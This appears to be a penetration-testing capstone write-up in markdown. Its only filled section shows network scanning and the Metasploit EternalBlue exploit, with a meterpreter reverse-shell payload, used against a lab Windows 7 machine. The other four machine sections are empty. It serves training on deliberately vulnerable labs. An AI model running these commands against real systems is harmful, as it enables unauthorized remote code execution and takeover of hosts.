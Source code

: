 # Capstone

This consists of some intentionally vulnerable machines which would be exploited using our Kali Linux machine:

  1. [Blue](#blue)
  2. [Academy](#academy)
  3. [Dev](#dev)
  4. [Butler](#butler)
  5. [Blackpearl](#blackpearl)

## Blue

---

* Given, the IP address of the vulnerable Windows Vista machine is 10.0.2.8. We can also confirm this once by using ```netdiscover```:

```shell
netdiscover -r 10.0.2.0/24
#shows 10.0.2.8 (Blue)

nmap -T4 -p 1-1000 -A 10.0.2.8
#using nmap to scan machine
#scanning only first 1000 ports as it would take much too time to scan all ports
```

* From the nmap scan, we get the following results:

```shell
135/tcp - open - msrpc - Microsoft Windows RPC
139/tcp - open - netbios-ssn - Microsoft Windows netbios-ssn
445/tcp - open - microsoft-ds - Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (WORKGROUP)
MAC Address - 08:00:27:2A:95:91
Running - Microsoft Windows 7|2008|8.1

Host script results:

smb2-security-mode - 2.1 - Message signing enabled but not required
nbstat - NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: unknown, NetBIOS MAC: 08:00:27:2a:95:91 (Oracle VirtualBox virtual NIC)
smb-security-mode - account_used: guest, authentication_level: user, challenge_response: supported, message_signing: disabled
OS - Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
OS CPE - cpe:/o:microsoft:windows_7::sp1
Computer name - WIN-845Q99OO4PP
NetBIOS computer name - WIN-845Q99OO4PP\x00
```

* Based on the results, we can attempt to enumerate based on the version of operating system, or if that does not work, we can go for the open ports and services given to us.

* Searching for exploits for the version of Microsoft Windows given to us, we get an exploit called 'Eternal Blue', which is a SMB remote code execution vulnerability.

* This exploit module is given as exploit/windows/smb/ms17_010_eternalblue, so we can run it using Metasploit framework:

```shell
msfconsole

use exploit/windows/smb/ms17_010_eternalblue
#by default, payload is windows/x64/meterpreter/reverse_tcp

options

set RHOSTS 10.0.2.8

show targets

exploit
```

* Hence, the 'Eternal Blue' exploit worked and we got access to Blue.

## Academy

---

## Dev

---

## Butler

---

## Blackpearl

---
